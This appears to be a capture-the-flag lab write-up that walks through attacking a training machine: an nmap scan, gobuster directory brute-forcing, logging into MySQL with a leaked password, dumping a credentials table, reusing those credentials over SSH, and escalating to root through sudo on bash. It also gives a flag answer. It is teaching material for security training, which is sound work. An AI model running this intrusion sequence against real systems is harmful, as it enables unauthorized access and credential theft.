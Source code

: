 
### Session : Attacking Common Services II and Basic Linux Privilege Escalation

![logo](assets/image.png)

We ran an `nmap` scan as usual to check the open ports in this machine before attacking :

```
┌──(dest1ny㉿kali-linux-2022-2)-[~]
└─$ nmap -sC -sV 45.79.77.201  
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-06 23:26 +0530
Nmap scan report for 45-79-77-201.ip.linodeusercontent.com (45.79.77.201)
Host is up (0.26s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 61:86:b2:7a:2d:e4:25:a0:e6:33:3a:d3:42:f9:97:81 (RSA)
|   256 2a:dd:f9:7f:f8:8b:80:ee:23:39:79:a0:cf:e8:fe:6f (ECDSA)
|_  256 44:56:9d:0c:9e:1b:f6:fb:0f:09:ad:ce:3f:e5:0a:90 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Landing Page - Start Bootstrap Theme
3306/tcp open  mysql   MySQL 8.0.35-0ubuntu0.20.04.1
| ssl-cert: Subject: commonName=MySQL_Server_8.0.35_Auto_Generated_Server_Certificate
| Not valid before: 2024-01-06T17:54:24
|_Not valid after:  2034-01-03T17:54:24
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.35-0ubuntu0.20.04.1
|   Thread ID: 19
|   Capabilities flags: 65535
|   Some Capabilities: InteractiveClient, SupportsLoadDataLocal, p done: 1 IP address (1 host up) scanned in 194.42 seconds
```

We found that :
- Port 80 runs `Apache httpd 2.4.41` Webserver
- Port 3306 runs `MySQL 8.0.35-0ubuntu0.20.04.1` 


To enumerate Port 80, we used a web browser and visited the ip address of the machine and was able to see a website that has been taken down :

![Image1](assets/image1.png)

We then bruteforced for directories using `Gobuster` tool to find any hidden directories that can be useful and was able to find a directory named `/news` :

```
┌──(dest1ny㉿kali-linux-2022-2)-[~]
└─$ gobuster dir -u http://45.79.77.201/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://45.79.77.201/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/news                 (Status: 301) [Size: 311] [--> http://45.79.77.201/news/]
```

We then visited that directory `/news` and was able to see a `.txt` file :

![Image2](assets/image2.png)

We opened that text file and was able to see a message : 

![Image3](assets/image3.png)

```
Dear hareen, Due to a recent cyberattack to our company, our company database got leaked. I was able to see that your password was gymislife. Please change it asap to avoid any kids hacking us! - Admin
```

We found some Credentials for the `mysql` service to login - `hareen:gymislife`

We used the below commands to connect to the `MySQL` service on the machine and see the contents of the tables and grab the data available :

```
mysql -h 45.79.77.201 -u hareen -p
show databases;
use users;
select * from credentials;
exit;
```

![Image4](assets/image4.png)

We were able to see 4 credentials we can use to login to the machine :

```mysql
select * from credentials;

+---------+----------------+
| user    | password       |
+---------+----------------+
| chami   | ilovepuppies   |
| destiny | capybaraislife |
| hareen  | gymislife      |
| vinuk   | switchisbetter |
+---------+----------------+
```

We tried all the credentials and was successful with the login `chami:ilovepuppies` to login to the machine :

```
ssh chami@{Machine_IP}
```

We were able to see that we are the user `chami` and we were in the `/home/chami` directory by using the `whoami` and `pwd` commands. And finally we were able to capture the `user` flag.

![Image5](assets/image5.png)

We had a question saying to find a file named `backup.txt` in our questions. So we used the `find` command with the `-name` tag to search for the file and was able to see that it inside a hidden directory and we used the `cat` command to view the contents of the file.

Note : In linux systems, Hidden files has a `.` in front of the file name. 

```
chami@localhost:~$ find -name backup.txt
./.backup/backup.txt
chami@localhost:~$ cat ./.backup/backup.txt
LNBTI{G00d_j0b_f1nd1ng_m3}
```

Optional :
We just checked what we have inside the hidden `.backup` directory using the `ls -la` command. We were able to see lots of random text files inside the directory. We were able to find our `backup.txt` file fast because we used the `find` command.

![Image6](assets/image6.png)

### Privilege Escalation

We used the `sudo -l` command to see what the user `chami` can run as `root`. 

Note : We use the `sudo` command to do the actions of the root. It's like forcing/commanding to do something by a king.

We were able to see that `/bin/bash` can be run as sudo for the user `chami` :

![Image7](assets/image7.png)

We went to the https://gtfobins.github.io/gtfobins/bash/#shell and was able to see a exploit string that we can use to escalate our privileges to root :

![Image8](assets/image8.png)

We used the command and was able to access the `root` account and go to the `/root` directory and grab the `root` flag.

![Image9](assets/image9.png)

---

To Complete this box :
- You need the basic understanding of SQL commands.
- An idea about Linux Privilege Escalation.
- Ability to use Gobuster.

Notes :
- GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. It is widely used by Pentesters/ Security Professsionals for Linux Privilege Escalation purposes.
- Gobuster is used to Bruteforce/Fuzz for any hidden directories, parameters,subdomains and so on.
